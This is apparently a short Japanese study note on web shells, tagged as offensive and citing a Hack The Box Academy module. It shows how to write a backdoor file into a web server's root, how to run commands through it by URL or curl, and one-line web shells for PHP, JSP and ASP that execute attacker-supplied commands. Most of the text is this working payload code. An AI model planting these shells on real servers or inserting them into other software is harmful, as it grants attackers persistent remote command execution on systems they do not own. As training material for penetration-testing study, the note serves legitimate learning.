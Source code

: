 ```yaml
---
tags:
  - Offensive
---
```


# Web Shell

エクスプロイトを実行して、攻撃対象のマシンに侵入またはリモートコードを実行できるとき、WebサーバーにPHP等のシェルにアクセスできるコードを仕込んで、ブラウザからURLを使って対話する方法。

- コードを仕込む
WebサーバーのRootにリモートコードを実行できれば、バックドアを作れる。
```bash
echo "<コード>" > /var/www/html/shell.php
```
- シェル実行
```url
http://target:port/shell.php?cmd=<command>
```
```bash
curl http://target:port/shell.php?cmd=<command>
```
Pythonを使って擬似的に対話形式にすることもできる。

## コード

- PHP
```php
<?php system($_REQUEST["cmd"]); ?>
```
- JavaServer Pages
```jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```
- Active Server Pages
```asp
<% eval request("cmd") %>
```


---

## 参照

1. https://academy.hackthebox.com/module/77/section/725